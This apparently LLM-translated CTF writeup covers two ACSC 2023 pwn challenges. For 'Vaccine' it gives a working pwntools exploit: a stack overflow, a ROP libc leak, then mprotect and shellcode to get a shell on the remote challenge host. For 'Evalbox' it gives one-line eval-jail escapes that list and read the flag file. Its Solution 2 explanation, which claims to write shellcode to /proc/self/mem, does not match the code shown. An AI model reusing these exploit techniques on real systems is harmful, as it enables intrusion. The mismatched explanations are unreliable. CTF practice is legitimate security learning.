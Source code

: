 ```yaml
---
title: "PWN【ACSC 2023】Writeup WP Reproduction"
authors: [nova]
tags: ["CTF", "Pwn", "writeup", "wp"]
---
```


This is an individual competition, but I have already forgotten things related to Web or Rev, let alone Crypto. Meanwhile, we cannot solve the hard challenges, so uh-hum, let's just say I'm not participating for the sake of the ranks LOL

<!--truncate-->

## Vaccine

The program uses `scanf` to receive our input, therefore we have no length limit, and we can just modify _s_ to be the same as _s2_.

![image-20230227192106762](https://oss.nova.gal/img/image-20230227192106762.png)

Then, we'll be able to leak the libc_address and ret2libc by simply doing a stack overflow and changing the return address.

At first, I used a wrong libc version and there were no one_gadgets available, so I used the `mprotect` and shellcode to get the shell, which made things more complicated.

exp:

```python
from pwn import *

context(log_level='DEBUG', arch='amd64', os='linux')
context.terminal = "wt.exe nt bash -c".split()

sh = process(['./vaccine'])
sh = remote('vaccine-2.chal.ctf.acsc.asia', 1337)
elf = ELF('./vaccine')
# libc = ELF('./libc6-i386_2.31-9_amd64.so')  # wrong libc lol
libc = ELF('/home/nova/glibc-all-in-one/libs/2.31-0ubuntu9.9_amd64/libc.so.6')

pop_rdi_ret = 0x401443
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

# gdb.attach(sh, 'b *0x00000000004013D7')
# pause()
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)
sh.recvuntil(b'castle\n')

libc_base = u64(sh.recv(6).ljust(8, b'\x00')) - 0x84420
mprotect = libc_base + libc.sym['mprotect']
read = libc_base + libc.sym['read']
pop_rsi_ret = libc_base + 0x02601f
pop_rdx_r12_ret = libc_base + 0x119211

print(hex(libc_base))
payload = b'AAAA' + b'\x00'*108 + b'AAAA\x00'
payload = payload.ljust(0x108, b'\x00')
payload += p64(pop_rdi_ret) + p64(elf.bss() & (~0xfff)) + p64(pop_rsi_ret) + p64(0x1000) + p64(pop_rdx_r12_ret) + p64(7)*2 + p64(mprotect)
payload += p64(pop_rdi_ret) + p64(0) + p64(pop_rsi_ret) + p64(elf.bss() + 0x50) + p64(pop_rdx_r12_ret) + p64(0x1000)*2 + p64(read) + p64(elf.bss() + 0x50) + p64(0x401236)
sh.sendlineafter(b'Give me vaccine: ', payload)

sh.sendline(asm(shellcraft.sh()))

sh.interactive()
```

## Evalbox

This is a really interesting challenge.

```python
#!/usr/bin/env python3
import seccomp

if __name__ == '__main__':
    f = seccomp.SyscallFilter(defaction=seccomp.ALLOW)
    f.add_rule(seccomp.KILL, 'close')
    f.load()
    eval(input("code: "))
```

It will `eval` anything we input, but it also prohibits all function calls for `close`.

In `Dockerfile`, we know that we should first get the filename of the flag.

At first, I thought there might be some differences between `seccomp.so` and [seccomp.pyx](https://github.com/seccomp/libseccomp/blob/main/src/python/seccomp.pyx). So I tried to compile this `.pyx` file and attempted to use bindiff between these two files, but I failed :(

But there are actually many ways to bypass this jail.

### Solution 1

This is an exp in a pure Python way.

We can use `os.scandir(os.open(".", 0))` to get all files in the `.` directory, and we can use `print(os.open(filename, 'r').read())` to get the content of the file.

Let's just shorten it to one line.

```python
print(os:=__import__('os'), d:=os.scandir(os.open(".", 0)), f:=open(next(filter(lambda x: x.name.startswith("flag"), d))), f.read(), sep='\n\n')
```

### Solution 2

We can open `/proc/self/mem` and write shellcode on the `.text` segment.

```python
print(os:=__import__('os'), f:=open('flag-31540753807ba7099ea27997ca43e280.txt', 'r'), f.read())
```

:::info
This Content is generated by LLM and might be wrong / incomplete, refer to Chinese version if you find something wrong.
:::

<!-- AI -->
